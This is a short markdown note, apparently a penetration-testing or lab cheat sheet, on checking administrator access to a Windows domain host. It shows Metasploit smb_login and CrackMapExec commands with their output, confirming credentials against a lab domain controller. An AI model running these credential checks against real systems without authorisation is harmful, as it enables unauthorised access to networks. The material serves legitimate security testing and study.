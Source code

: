 # Checking your rights for remote device

## SMB_Login

	msf6 auxiliary(scanner/smb/smb_login) > set smbuser administrator
	smbuser => administrator
	msf6 auxiliary(scanner/smb/smb_login) > set smbpass Pass123!
	smbpass => Pass123!
	msf6 auxiliary(scanner/smb/smb_login) > set smbdomain valhalla.local
	smbdomain => valhalla.local
	msf6 auxiliary(scanner/smb/smb_login) > run
	[*] 192.168.200.100:445   - 192.168.200.100:445 - Starting SMB login bruteforce
	[+] 192.168.200.100:445   - 192.168.200.100:445 - Success: 'valhalla.local\administrator:Pass123!' Administrator
	[*] valhalla.local:445    - Scanned 1 of 1 hosts (100% complete)
	[*] Auxiliary module execution completed
	msf6 auxiliary(scanner/smb/smb_login) > 
	
## Crackmapexec

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ crackmapexec smb valhalla.local -u administrator -p Pass123!                                                                                   1 ⚙
	SMB         192.168.200.100 445    ODIN             [*] Windows Server 2012 R2 Standard Evaluation 9600 x64 (name:ODIN) (domain:valhalla.local) (signing:True) (SMBv1:True)
	SMB         192.168.200.100 445    ODIN             [+] valhalla.local\administrator:Pass123! (Pwn3d!)
 